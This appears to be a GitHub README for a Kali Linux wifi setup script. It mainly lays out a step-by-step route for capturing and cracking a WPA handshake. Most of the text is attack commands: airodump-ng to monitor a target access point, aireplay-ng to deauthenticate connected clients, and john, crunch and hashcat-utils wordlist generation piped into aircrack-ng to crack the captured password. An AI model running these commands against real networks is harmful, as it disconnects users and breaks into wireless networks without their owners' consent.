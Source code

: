 # kali_wifi_setup_script
A basic script to bring a wlan0 interface up to monitor mode and start airodump-ng if required

Route to capture wpa handshake

1: use the above output to decide on target and note details:

BSSID:     00:00:00:00:22:30
ESSID:     TESTAP
Client:    00:00:00:00:00:ED
Mon0:      00:00:00:00:00:A8
Channel:   11

2: Screen 1 - Monitor target for clients using: airodump-ng -c <Channel> --bssid <BSSID> -w <CaptureName> <Mon0 interface name>
  
3: Screen 2 - Associate with the bssid: aireplay-ng -1 0 -e <ESSID> -a <AP MAC> -h <Your Mon0 MAC> <Mon0 interface name>
  
4: Screen 3 - death a connected client periodically until the wpa handshake is witnessed / captured in screen 1 
  aireplay-ng -0 1 -a <AP MAC> -c <Client MAC to DeAuth> <Mon0 interface name>
  
5: Go get a life and hope that you can attack the wifi handshake captured

john --wordlist=/usr/share/wordlists/rockyou.txt --rules --stdout | aircrack-ng -0 -e "THEAPANAME" -w - /SOMEPATH/THECAPTURENAME.cap

6: If you know a pattern for the wifi password then try the following items?

crunch 8 8 abcdef1234567890 | aircrack-ng -0 -e "THEAPANAME" -w - /SOMEPATH/THECAPTURENAME.cap
crunch 8 8 abcdefghijklmnopqrstuvqxyz | aircrack-ng -0 -e "THEAPANAME" -w - /SOMEPATH/THECAPTURENAME.cap

7: Failing all the above and if you have a powerful enough GPU GTX 1080 :D then try combinations of words such as:
/usr/lib/hashcat-utils/combinator.bin /usr/share/wordlists/rockyou.txt /usr/share/wordlists/rockyou.txt  |aircrack-ng -0 -e "THEAPANAME" -w - SOMEPATH/THECAPTURENAME.cap


All of the above may produce 0 results and take a looong time to do so, however if weak words, patterns or weak words joined are used then the above will yield a result eventually......maybe......?

